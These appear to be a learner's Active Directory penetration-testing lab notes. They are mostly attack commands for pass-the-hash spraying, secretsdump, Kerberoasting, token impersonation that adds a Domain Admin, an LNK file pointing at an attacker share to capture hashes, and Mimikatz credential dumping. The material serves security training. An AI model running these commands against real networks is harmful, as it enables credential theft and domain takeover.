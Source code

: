 
![[Pasted image 20241116130150.png]]

>[! bug] Moving Laterally & Vertically

```
- [ ] Pass Attacks
- [ ] Dumping and Cracking Hashes
- [ ] Kerberoasting Overview
- [ ] Token Impersonation
- [ ] LNK File Attacks
- [ ] GPP / cPassword Attacks
- [ ] Mimikatz
- [ ] Credential Dumping with Mimikatz
- [ ] Post-Compromise Attack Strategy
```



##  Pass Attacks

- [ ] crackmapexec

```
crackmapexec smb <IP_Address> -u <user_list> -d <domain_list> -p <password_list>
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```



Hash
```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --sam
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --lsa
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --shares
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth -M lsassy
```


```
cmedb
```




- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```

```
secretsdump.py administrator@10.10.10.182 -hashes <full:hash>
```





- [ ] Dumping and Cracking Hashes

```
Wdigest is by default on Windows 2007 , 2008 , 2012.
```

```
llmr -> fcastle hash -> cracked -> sprayed the password -> found new login -> secretsdump those logins -> local admin hashes -> respray the network with local accounts

Lateral, Lateral, lateral all the way through until we find the vertical movement.
It could be admin password in wdigest or it could be an admin account that logins into your Domain controller.
```




- [ ] Kerberoasting

```
GetUserSPNs.py MARVEL.local/<usernname>:<password> -dc-ip <ip_address> -request
```

```
If it's never a logon in an account that could be a Honeypot account
```






- [ ] Token Impersonation

Delegate Token are for login's & RDP
Incognito

MSF-Console
![[Pasted image 20241112174826.png]]


```
load incognito
```
![[Pasted image 20241112175259.png]]

```
list_token -u
list_token -g
```

```
impersonate_token marvel\\fcastle
```

```
shell 
rev2self
getuid
```


```
net user /add hawkeye Password1@ /domain
net group "Domain Admins" hawkeye /ADD /DOMAIN
```





- [ ] LNK File Attacks


```
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("C:\test.lnk")
$lnk.TargetPath = "\\<attacker_machine_IP>\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```


```
sudo responder -I eth0 -dwPv
```


Automated attack using CME/Net Exec:

```
netexec smb 192.168.138.137 -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=192.168.138.149
```


Additional resources for forced authentication: [Red_Team_Offensive_Security](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.rtf)







- [ ] GPP / cPassword Attacks

GPP -> gpp-decrypt -> msf -> smb_enum_gpp




- [ ] Mimikatz

https://github.com/gentilkiwi/mimikatz



- [ ] Credential Dumping with Mimikatz

```
privilege::
```

```
sekurlsa::logonpasswords
```

```
privilege::debug
```

```
sekurlsa::
```

```
sekurlsa::logonPasswords
```



- [ ] Post-Compromise Attack Strategy

```
Enumerate what is Bloodhound telling us, what are the quick winds there, who are our users, where are our domain admins, do we have access to any machines that are potentially sensitive.

Where does our account have access ?_?

Do we have access to file shares, can we maybe look up sensitive files, can we log in with our account to different locations.

Maybe we can check our email or we can look at service desk tickets, or log into different areas, maybe that leads to another form of compromise, or it leads to some other information that we can gather.
```

![[Pasted image 20241116130213.png]]

>[! bug] Keep In Mind

## Attack
Certificate attack

## Tool
Certipy


